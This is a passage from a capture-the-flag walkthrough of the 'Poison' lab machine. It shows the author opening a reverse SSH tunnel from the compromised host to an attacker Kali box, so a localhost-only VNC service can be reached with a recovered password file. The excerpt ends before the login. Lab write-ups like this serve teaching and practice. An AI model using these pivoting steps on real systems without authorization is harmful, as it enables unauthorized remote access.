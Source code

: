 Port 5801 and 5901 are normally used by VNC, which matches with the running VNC session we see in processes. Let's port forward this over to our attacking machine so we have access (make sure you start SSH on your attacking box!).

```
charix@Poison:~ % ssh -l root -R 5801:127.0.0.1:5901 10.10.14.8
root@10.10.14.8's password: 

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@kali:~#
```

If we check our listening connections on kali we see the port forward was successful.

```
root@kali:~# netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5801          0.0.0.0:*               LISTEN     
tcp        0      0 10.10.14.8:44976        10.10.10.84:22          ESTABLISHED
tcp        0      0 10.10.14.8:22           10.10.10.84:54672       ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:5801                :::*                    LISTEN
```

`vncviewer` allows you to pass a passwd file to it for authentication with the `-passwd` option, so perhaps we can pass our secret file for authentication. 

```
root@kali:~/htb/poison# vncviewer -h
TightVNC Viewer version 1.3.9

Usage: vncviewer [<OPTIONS>] [<HOST>][:<DISPLAY#>]
       vncviewer [<OPTIONS>] [<HOST>][::<PORT#>]
       vncviewer [<OPTIONS>] -listen [<DISPLAY#>]
       vncviewer -help

<OPTIONS> are standard Xt options, or:
        -via <GATEWAY>
        -shared (set by default)
        -noshared
        -viewonly
        -fullscreen
        -noraiseonbeep
        -passwd <PASSWD-FILENAME> (standard VNC authentication)
~
~
```
